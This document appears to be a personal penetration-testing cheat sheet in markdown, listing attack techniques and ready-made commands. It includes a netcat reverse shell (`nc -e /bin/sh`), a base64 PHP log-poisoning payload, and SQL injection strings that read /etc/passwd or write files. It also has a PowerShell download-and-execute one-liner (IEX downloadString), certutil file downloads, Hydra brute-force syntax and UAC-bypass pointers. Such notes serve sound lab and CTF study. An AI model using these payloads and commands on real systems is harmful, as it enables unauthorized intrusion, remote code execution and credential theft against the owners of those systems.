 # Tools

#### RCE

`;` or `|` to add commands

***

#### LFI

* traverse directories
* `/proc/self/environ`
  * can also be done on other log files
  * can send base64 encoded scripts through and decode
  * `ssh [payload]@[hostip]`
  * payload would be something like `<?php passthru(base64_decode('[b64encoded string]')); ?>`
* use burp to mod headers
* `nc -e /bin/sh [ip] [port]`
  * add listener first `nc -lvnp [port]`
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

***

#### RFI

* storing a txt file on webserver of a machine we have access to which can connect to the machine we want access to (we want to attack MS VM we have access to Kali VM, store file on Kali, use LFI but pass in url to file to pull, add `?` to param to get it to execute as php, change caps of protocol for bypassing some checks)

***

#### File uploads

* change mime type
* change file extension
* add magic characters

***

#### SQL Injection

* in forms:
  * check with `pass' and 1=1#` in password field if you have a valid login
  * can also use `pass' OR 1=1#` with an invalid login but have a good username
  * could also just use username field if good username: `admin'#`
  * if there are checks on the client side, can remove onsubmit functions in the dom or intercept good data on burp and modify before it's sent to include the SQLi
* in get params:
  * try `order by 1#`, may have to urlencode `#` to `%23`
  * use this to increment through column count then you can `union select 1,2,3..n%23`
  * `union select 1,table_name,null,null,..,n from information_scema.tables`
  * etc,etc
* to bypass some filtering, you may need to convert strings into hex, urlencode everything and send it
* sometimes changing param sequences or case will bypass some filters as well
* when records are limited, iterate in sql to get all info desired
  *
    * `limit 0,1` then `1,1`, `2,1`, etc etc
* reading files: `union select load_file('/etc/passwd'),2 #`
* write to file: `union select 'test text',null into outfile '/var/www/output.txt'#`
  * may not have write access, use LFI for possible workaround if available - write to /tmp with sql injection, use LFI to access file (could also to RFI if separate machines have different vulns)
* Tools
  * sqlmap
    * `sqlmap -r [filename].req --level 4 --risk 3`

***

#### XSS

* more info from python course
* url params and input boxes
* `<script>alert('1')</script>`
* often change case to fool filters
* look at page source to see how code is being output and modify accordingly
* urling urlencoding is almost always helpful
* always try to modify the DOM (remove inline methods, remove maxlength attributes, etc)
* get charcode, use String.fromCharCode instead of using quotes

***

#### Cookies

* simple cookies can be manipulated to allow access (uid, etc)

***

#### CSRF

* make a hidden version of a form that submits on load

***

#### Creating Wordlists

* crunch: `crunch [min] [max] [chars] -t [pattern] -o [filename]`
* `crunch 6 8 123abc$ -o wordlist -t a@@@@b`, 6-8 chars, include 1,2,3,a,b,c,$, start with a, end with b

***

#### encrypted cookies

* can sometimes be busted with padbuster

***

#### Brute forcing

* Hydra
  * `hydra [hostIP] -l [login] -L [loginfile] -p [pass] -P [passfile] -C [user:pass file] [service]`
  * for web form, append `"path-to-form.ext:[username]=^USER^&password=^PASS^&other-param=param:F=Not Logged In String"`

***

#### WFUZZ

* Need notes!!!

***

#### ZAP

* automated scanning, but more manual than many of the tools
* can audit all scans after

***

#### NFS

* list mounts:
  * `showmount -e [ip]`
* mount share:
  * `mount -t nfs -o vers=2 [ip]:[share] /mnt`

***

#### hashcat

* `hashcat --example-hashes`
* LUKS exncrypted disk images
  * `cryptsetup luksDump [imgfile]` to get payload offet +1
  * `dd if=[imgfile] of=[outfile] bs=512 count=[offset]`
  * `hashcat -m 14600 [file] [wordlist]`

***

#### mounting LUKS disk image

* `cryptsetup luksOpen backup.img [name]`
* `ls /dev/mapper`
* `mount /dev/mapper/[name] /mnt`

***

#### PowerShell

* powershell can switch from cmd to powershell
* Downloading files:
  * `IEX(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `Invoke-WebRequest -Uri http://[host]/[file]`
    * `IWR -uri http://[host]/[file]` also works
    * `-OutFile C:\\windows\\temp\\filename.ext` to specify a filename
  * if in cmd shell, need to use `powershell` prefix
* listing all files:
  * `gci -recurse . | select fullname`
* copy binary file to b64 string for rebuilding:
  * `certutil -encode [filepath] [outfile path].b64`
  * `type [outfile path].b64`
  * copy, paste to file on host
  * base64 decode it:
    * `base64 -d [filename].b64 > [filename].ext`
* creating credentials from string
  * `$pass = ConvertTo-SecureString '[pass]' -AsPlainText -Force`
  * `$cred = New-Object System.Management.Automation.PSCredential("[user]",$pass)`
  * `hostname`
  * `Invoke-Command -Computer [hostnmame] -ScriptBlock { whoami } -Credential $cred`
    * can use this to then run another IWR to grab a shell and get escalated shell
* useful to use rlwrap on your listener:
  * `rlwrap nc -lvnp 9001` - this will give history up arrow, ctrl L to clear, etc.
* bypass admin lockout if in admin group
  * `net use Z: \\127.0.0.1\c$`
  * `z:`
* UACME for ways to bypass UAC

***

#### CMD

* download a file
  * `certutil -urlcache -f http://[host]/[file] [outfile path]`

***

#### TheHarvester

#### whatweb

#### wappalyzer

#### pownjs

#### enum4linux
